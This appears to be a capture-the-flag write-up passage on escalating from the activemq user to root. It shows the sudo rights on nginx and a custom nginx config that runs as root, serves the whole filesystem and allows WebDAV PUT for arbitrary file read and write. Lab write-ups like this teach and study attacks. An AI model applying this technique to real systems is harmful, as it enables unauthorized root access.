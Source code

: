 ```bash
54a596f0bd7a231d20a569aad5efb2bd
```


# Root Flag
---

## From activemq to root


### Sudo - Nginx


#### Enum

```bash
activemq@broker:/opt/apache-activemq-5.15.15/bin$ sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

```bash
activemq@broker:/opt/apache-activemq-5.15.15/bin$ cat /etc/nginx/nginx.conf
user www-data;
worker_processes auto;
pid /run/nginx.pid;
include /etc/nginx/modules-enabled/*.conf;

events {
        worker_connections 768;
        # multi_accept on;
}

http {
...
```

#### Setup Webdav config file

Start nginx with the custom config to enable **arbitrary file read and write**  via **webdav**

> `/dev/shm/1.conf`

```bash
user root;
events {
    worker_connections 768;
}
http {
    server {
        listen 7777;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}
```

